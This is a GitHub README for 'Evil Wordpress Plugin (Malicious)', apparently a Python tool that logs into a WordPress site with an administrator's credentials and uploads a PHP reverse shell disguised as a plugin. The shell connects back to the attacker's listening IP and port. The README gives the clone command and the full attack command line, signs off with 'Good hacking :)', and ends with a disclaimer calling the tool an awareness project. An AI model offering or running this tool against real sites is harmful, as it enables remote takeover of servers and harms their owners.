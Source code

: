 
<div align="center">

  <img src="https://github.com/Jsmoreira02/Pwn_wordpress/assets/103542430/6392fe40-bfff-4784-acfd-645ba2155574" height=130>
  
  <img src="https://img.shields.io/badge/Language%20-Python3-blue.svg" style="max-width: 100%;">
  <img src="https://img.shields.io/badge/Tool%20-Shell upload | reverse shell-brown.svg" style="max-width: 100%;">
  <img src="https://img.shields.io/badge/Target OS%20-Linux-yellow.svg" style="max-width: 100%;">
  <img src="https://img.shields.io/badge/Hacking tool%20-teste?style=flat-square" style="max-width: 100%;">  
  <img src="https://img.shields.io/badge/Type%20-Script-red.svg" style="max-width: 100%;">

</div>

# Evil Wordpress Plugin (Malicious)

Malicious, remotely performs an upload of a PHP reverse shell in the form of a plugin on a WordPress site. The exploit is only successful with user credentials, so make sure you know the target username and password and check if the target user has Administrator permissions.

Install by running:

```bash
  git clone https://github.com/Jsmoreira02/_Malicious.git
```
    
## Attacking the Target Website:

![ezgif com-video-to-gif(1)](https://github.com/Jsmoreira02/Pwn_Wordpress/assets/103542430/532470ab-161f-487d-a59b-f3d0d7366c25)


- **The speed depends on your connection, check the stability of your connection in case there is a slowdown in execution**


```bash 
python3 Malicious.py -t http://<IP or domain_name> -u <Target Username> -p <Target Password> -L <LOCAL IP> -P <LOCAL PORT>

```

### In case of complications or disconnection issues, you can just manually trigger the connection at the URL link. The script will pass it to you. ###

## 

- ***Good hacking :)***

# Warning:    
> I am not responsible for any illegal use or damage caused by this tool. It was written for fun, not evil and is intended to raise awareness about cybersecurity



